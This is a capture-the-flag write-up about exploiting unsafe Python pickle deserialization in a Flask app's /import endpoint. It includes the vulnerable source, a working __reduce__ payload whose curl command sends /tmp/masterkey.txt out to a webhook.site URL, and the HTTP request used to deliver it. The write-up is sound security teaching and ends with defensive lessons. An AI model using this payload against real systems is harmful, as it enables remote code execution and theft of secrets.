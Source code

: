 ```yaml
---
layout: post
title: "Pickle RCE: Exfiltrating Secrets via Unsafe Deserialization"
categories: code-review
tags:
  - rce
  - pickle
  - deserialization
  - flask
  - webhook
  - appsecmaster
pin: false
comments: true
toc: true
image: https://www.appsecmaster.net/assets/appLogo.svg
---
```

## Overview

This writeup covers a Remote Code Execution (RCE) vulnerability caused by **unsafe deserialization using Python's `pickle` module**.  
The vulnerable web application was featured in [AppSecMaster Challenge #82b24fdf](https://www.appsecmaster.net/en/challenge/82b24fdf-147a-4ef1-ac13-55f32861df3d), where the goal is to extract a sensitive file (`/tmp/masterkey.txt`) from the server.

---

## Vulnerability Summary

The Flask app allows importing base64-encoded state files via `/import`, which it deserializes using `pickle.loads()` directly on user input — opening the door to **arbitrary code execution** if an attacker crafts a malicious payload.

---

## Understanding the Bug

This part of the code is the root cause:

```python
decoded_data = base64.b64decode(base64_data)
program_state = pickle.loads(decoded_data)
````

Here, the server blindly trusts user-supplied input and loads it via `pickle`, a module known to allow arbitrary code execution when misused.

---

## Challenge Source Code

The full vulnerable Flask application:

```python
from flask import Flask, render_template, request, jsonify
import pickle
import os
import base64

app = Flask(__name__)
state_file = 'program_state.pkl'

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/save', methods=['POST'])
def save_state():
    try:
        program_state = request.json
        with open(state_file, 'wb') as f:
            pickle.dump(program_state, f)
        return jsonify({"message": "State saved successfully!"}), 200
    except Exception as e:
        return jsonify({"error": str(e)}), 500

@app.route('/resume', methods=['GET'])
def resume_state():
    try:
        if not os.path.exists(state_file):
            return jsonify({"error": "No saved state found!"}), 404
        with open(state_file, 'rb') as f:
            program_state = pickle.load(f)
        return jsonify(program_state), 200
    except Exception as e:
        return jsonify({"error": str(e)}), 500

@app.route('/import', methods=['POST'])
def import_statefile():
    try:
        base64_data = request.json.get('statefile')
        if not base64_data:
            return jsonify({"error": "No statefile data provided!"}), 400
        decoded_data = base64.b64decode(base64_data)
        program_state = pickle.loads(decoded_data)
        with open(state_file, 'wb') as f:
            pickle.dump(program_state, f)
        return jsonify({"message": "State imported and saved successfully!"}), 200
    except Exception as e:
        return jsonify({"error": str(e)}), 500

if __name__ == '__main__':
    app.run()
```

---

## Exploitation Strategy

To exploit this, we define a custom class with a `__reduce__()` method that returns a callable and arguments to be executed when `pickle.loads()` is called.

I initially tried using:

```python
return (os.system, ("curl ...",))
```

But encountered the following error:

```
{"error": "No module named 'nt'"}
```

This happened because I built the payload on Windows, and `os.system` resolved internally to `nt.system`, which doesn't exist on Linux.

---

## The Final Payload

To solve the compatibility issue and reliably execute the command on Linux, I used `subprocess.getoutput()` instead.

```python
import pickle
import base64
import subprocess

class RCE:
    def __reduce__(self):
        return (
            subprocess.getoutput,
            ("curl 'https://webhook.site/your_link/leak?data='$(cat /tmp/masterkey.txt)",)
        )

payload = pickle.dumps(RCE())
print(base64.b64encode(payload).decode())
```

This payload reads the contents of `/tmp/masterkey.txt` and sends it to my [webhook.site](https://webhook.site/) endpoint via a GET request.

---

## 📤 Sending the Payload

```http
POST /import HTTP/1.1
Host: target-website.com
Content-Type: application/json

{
  "statefile": "<base64_encoded_payload>"
}
```

Once the payload is deserialized by the server, it triggers the HTTP request with the leaked file content.

---

## Key Lessons

- **Never deserialize untrusted input with `pickle.loads()`**. Use safe alternatives like `json.loads()` unless you fully control the input.
    
- **RCE via deserialization** is one of the most dangerous classes of bugs and often leads to full server compromise or data leaks.
    
- **Cross-platform payload compatibility** matters. Avoid generating payloads on Windows when the target is Linux.
    

---
thanks for reading.
If you enjoyed this write-up, feel free to follow me on [Twitter](https://twitter.com/00xmora)